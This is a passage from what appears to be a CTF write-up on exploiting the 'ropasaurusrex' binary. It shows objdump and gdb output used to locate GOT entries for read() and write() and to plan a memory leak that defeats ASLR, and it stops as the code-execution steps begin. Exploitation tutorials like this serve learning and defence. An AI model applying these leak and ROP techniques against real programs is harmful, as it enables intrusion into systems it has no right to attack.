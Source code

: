 ## Defeating ASLR

So, what do we know? Well, the binary itself isn't ASLRed, which means that we can rely on every address in it to stay put, which is useful. Most importantly, the relocation table will remain at the same address:

```

<span class="lnr"> 1 </span>$ objdump <span class="Special">-R</span> ./ropasaurusrex
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>./ropasaurusrex:     <span class="Statement">file</span> format elf32-i386
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span>DYNAMIC RELOCATION RECORDS
<span class="lnr"> 6 </span>OFFSET   TYPE              VALUE
<span class="lnr"> 7 </span>08049600 R_386_GLOB_DAT    __gmon_start__
<span class="lnr"> 8 </span>08049610 R_386_JUMP_SLOT   __gmon_start__
<span class="lnr"> 9 </span>08049614 R_386_JUMP_SLOT   <span class="Statement">write</span>
<span class="lnr">10 </span>08049618 R_386_JUMP_SLOT   __libc_start_main
<span class="lnr">11 </span>0804961c R_386_JUMP_SLOT   <span class="Statement">read</span>
```

So we know the address—in the binary—of <tt>read()</tt> and <tt>write()</tt>. What's that mean? Let's take a look at their values while the binary is running:

```

<span class="lnr">1 </span>$ gdb ./ropasaurusrex
<span class="lnr">2 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> run
<span class="lnr">3 </span>^C
<span class="lnr">4 </span>Program received signal SIGINT, Interrupt.
<span class="lnr">5 </span>0xb7fe2424 <span class="Error">in</span> __kernel_vsyscall <span class="PreProc">()</span>
<span class="lnr">6 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/x 0x0804961c
<span class="lnr">7 </span>0x804961c:      0xb7f48110
<span class="lnr">8 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> <span class="Statement">print</span><span class="Constant"> read</span>
<span class="lnr">9 </span><span class="PreProc">$1</span> <span class="Statement">=</span> <span class="Special">{</span><span class="Statement"><</span>text variable, no debug info<span class="Statement">></span><span class="Special">}</span> 0xb7f48110 <span class="Statement"><</span><span class="Statement">read</span><span class="Statement">></span>
```

Well look at that.. a pointer to <tt>read()</tt> at a memory address that we know! What can we do with that, I wonder...? I'll give you a hint: we can use the <tt>write()</tt> function—which we also know—to grab data from arbitrary memory and write it to the socket.

## Finally, running some code!

Okay, let's break, this down into steps. We need to:
